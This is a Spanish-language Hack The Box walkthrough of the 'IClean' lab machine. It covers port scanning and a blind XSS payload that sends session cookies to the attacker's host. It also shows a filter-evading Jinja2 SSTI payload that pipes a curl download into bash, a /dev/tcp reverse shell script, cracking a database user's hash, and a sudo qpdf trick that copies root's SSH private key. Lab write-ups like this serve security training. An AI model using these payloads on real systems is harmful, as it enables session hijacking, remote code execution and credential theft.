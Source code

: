 ```yaml
---
layout: single
title: "IClean - Hack The Box"
excerpt: "Para resolver esta máquina, interceptamos la solicitud de inicio de sesión, logrando llevar a cabo un XSS para robar una cookie de sesión válida. Con esta cookie, ingresamos al dashboard, que contiene un sistema de facturación que genera un código QR y un enlace. Al utilizar el enlace, se crea un escaneable, cuya solicitud interceptamos para poder inyectar SSTI. Posteriormente, logramos establecer una Reverse Shell. En el código fuente de la web, descubrimos en texto claro el usuario y la contraseña de la base de datos, encontrando así las credenciales de un usuario válido que desencriptamos. Finalmente, abusamos de los permisos SUDOERS del binario 'qpdf' para convertirnos en ROOT."
date: 2024-06-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-iclean/iclean_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CVE-2021-31630
---
```


![](/assets/images/htb-writeup-iclean/iclean_logo.png)
# PortScan

```java
# Nmap 7.94SVN scan initiated Tue Jun  4 16:55:14 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  4 16:55:24 2024 -- 1 IP address (1 host up) scanned in 10.29 seconds
```

# Sitio Web

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163238.png)

Vemos un **nav** con su respectivo **Login**, intenté ingresar con credenciales por defecto, incluso llevar a cabo un **STTI** blind ya qué por detrás está corriendo un **python**, entre otras técnicas para poder bypassear o ejecutar código a través del Login con **Burpsuite**, pero no logré nada, seguí indagando en la página principal.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163407.png)

Vemos que tenemos en la página un apartado para solicitar un presupuesto para la limpieza.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163446.png)

Intercepto esta solicitud con **Burpsuite** para llevar a cabo intentos de posibles vulnerabilidades.. de primero se me ocurre **STTI**, intenté varias maneras pero no logré nada, seguí intentando...


Finalmente, pude llevar a cabo un **XXS** tras varios intentos fallidos, ya que la **DATA** tramitada para las variables debe ser **URLencodeada**, y la respuesta del servidor no muestra nada para guiarnos, así que fue a ciegas mediante un servidor en local con Python, para ver sí lográbamos llevar a cabo la **XXS**.

1. Nos montamos servidor en local con python.
```bash
python3 -m http.server 80
```

2. Payload utilizado en la solicitud para la variable "**service**".
```bash
script+src%3d"http%3a//10.10.14.x/test"></script>
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164714.png)

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164722.png)

viendo qué estamos pudiendo llevar a cabo un **XSS**, se me ocurre tratar de robar la cookie de sesión, es decir un **cookie hijacking**, para poder loguearnos en el **Login** que vimos al principios, así que sustituyo el payload por éste:
```bash
<img+src%3dx+onerror%3dfetch('http%3a//10.10.14.3/'%2bdocument.cookie)%3b>
```

obteniendo así lo que sería una cookie de sesión:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605165222.png)

con el nombre de su variable, así que procedo a remplazar esto en mi navegador, en mi caso uso **Firefox**, es tan fácil como ir a la WEB, hacer **CTRL + SHIFT + C**, luego ir a **Storage** > **Cookies** > **+**, y cambiamos los valores tal que así:

![](/assets/images/htb-writeup-iclean/Pasted image 20240605165539.png)

o también podríamos usar la extensión de navegadores **"cookie-editor"**.

Lamentablemente, al ir a **Login**, recargando no logro nada, pero hago un **fuzzing** rápido a directorios, ya que a lo mejor con la cookie no me redirige directamente, usaré la herramienta "**GoBuster**" para esto.
```bash
❯ gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================

/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

descubriendo un directorio "**/dashboard**", así que con la cookie seteada procedo a ir a éste directorio...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605170417.png)

vemos qué estamos ante un **Sistema de factura,** el cual podemos escanear **códigos QR's**, editar servicios, entre otras cosas... me pongo a investigar & probar cosas..

empiezo generando una factura..

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171335.png)

eso me genera un **ID**, intuyo que este ID lo necesitaremos para algo, sigo indaganado..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171416.png)

el **ID** aparentemente es para generar un **QR**, así que lo pongo acá.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171538.png)

veo que ahora podemos generar un Escaneable con el link del QR, lo pongo...

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171702.png)

generándose esto, me da por curiosear aquí ya que veo números para tratar de llevar a cabo un **STTI**, lo intercepto con **BurpSuite**.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171802.png)

en esa **DATA** pruebo en la variable del **QR** inyectar una operación básica **SSTI**..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605172955.png)
![](/assets/images/htb-writeup-iclean/Pasted image 20240605173011.png)

y estamos llevando a cabo un **STTI** exitosamente, pero lo está convirtiendo en **base64**, ya sabiendo esto podría entablarme una **Reverse Shell** de la siguiente manera:

1. Nos creamos un archivo con nombre "**revshell**", con esto dentro:
```bash
#!/bin/bash
bash -c 'bash -i >&/dev/tcp/10.10.14.x/PORT 0>&1'
```

2. En el mismo directorio del "**revshell**" nos montamos un servidor Python.
```python
python3 -m http.server 80
```

3. Abrimos un puerto en escucha para recibir la **Reverse Shell:**
```bash
nc -nlvp PORT
```

5. Usamos este payload en la solicitud:

```python
{ {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()} }
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605173635.png)

logrando acceso a la máquina, sólo quedaría darle [Tratamiento a la TTY](https://4uli.github.io/tratamiento-tty/#).


# Escalada de Privilegios #1 

como **www-data**, miro el directorio Home para ver posibles usuarios, descubriendo así a "**consuela**", indago en el directorio del la app, viendo el **"app.py"** detalladamente descubro esto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174045.png)

descubriendo las credenciales de la **DB** en texto claro, así qué procedo a buscar que puertos que estén en uso que coincidan con lo que usan las DB's por defecto con:
```bash
ss -tulnp
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174153.png)
viendo que está abierto el **:3306** que suele ser **MySQL**, así que intento conectarme a **MySQL** en local con estas créndeciales.
```bash
mysql -u iclean -p
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174435.png)

logrando conectarnos a la base de datos, así que ahora veré las tablas & sus contenidos a ver que encuentro...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174526.png)

encontrándome esto en la tabla **"users"** de la db "**capiclean**", las contraseñas pero hasheadas, pruebo en [hashes.com](https://hashes.com/en/decrypt/hash) a ver sí es posible desencriptarla, empecé por la de admin pero no funcionó, así que pruebo con el hash de consuela..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174919.png)

logrando desencriptar la contraseña, ahora pruebo estas credenciales para convertirme en "**consuela**", logrando acceso.

# Escalada de Privilegios #2

Como "**consuela**" listo por **SUDOERS**, viendo ésto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605175042.png)

qué podemos ejecutar el aparente binario "**qpdf**" como quién queramos, así que es una potencial manera de escalar a **ROOT**, no tengo idea qué es **qpdf** así que hago una investigación en Internet, encontrándome con su [DOCUMENTACIÓN.](https://qpdf.readthedocs.io/en/stable/cli.html#basic-invocation)

y usando ésta linea:
```bash
sudo /usr/bin/qpdf --empty /tmp/pwned.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

crearemos un archivo en el "**tmp**" con la copia de la **id_rsa** de **ROOT**.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180556.png)

nos copiamos esta clave en nuestra máquina, dándole permisos "**600**" y podremos conectarnos.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180657.png)
